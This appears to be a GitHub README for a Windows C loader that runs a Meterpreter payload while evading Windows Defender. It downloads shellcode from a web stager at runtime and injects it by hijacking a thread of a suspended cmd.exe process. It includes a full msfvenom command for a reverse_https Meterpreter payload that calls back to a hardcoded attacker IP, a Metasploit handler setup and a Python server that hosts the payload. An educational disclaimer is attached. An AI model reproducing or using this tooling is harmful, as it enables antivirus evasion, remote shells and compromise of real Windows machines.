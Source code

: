 # 🎯 Meterpreter Payload exectuion

A lightweight Windows C application developed using **Visual Studio**. This project aims to execute a Meterpreter payload with Defender enabled. This approach helps bypass Defender, although some Meterpreter functionalities may still be flagged. This solution results from work done after following **MALDEV Academy** — a fantastic course that helped me reach this level.

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fetches the shell code at runtime and will avoid some common signatures by not storing the shell code on disk.
- I then create a suspended process, "cmd.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time and then call back with a Meterpreter payload on a different port. The steps below are for setup.


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for your local machine that is hosting Metasploit
```

2. Open Metasploit


 ```bash
# In a different terminal setup Metasploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# In the same directory as the payload and a different terminal as Metasploit, run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](image.png)


### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for your Kali machine. Make sure the port used hosts the Python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target
![alt text](image-1.png)

- A callback,, then a Meterpreter shell
![alt text](image-2.png)

## 📚 Credits

- **MALDEV Academy** — [maldevacademy.com](https://maldevacademy.com)  
  A fantastic resource for learning malware development techniques.
  
- **Offensive Security Community** — [offensive-security.com](https://www.offensive-security.com)  
  The community behind Kali Linux and other offensive security tools.

- **Metasploit** — [metasploit.com](https://www.metasploit.com)  
  A powerful framework for developing and executing exploit code against remote target machines.

- **Python HTTP Server**  
  Used to serve the payload during the attack.

---
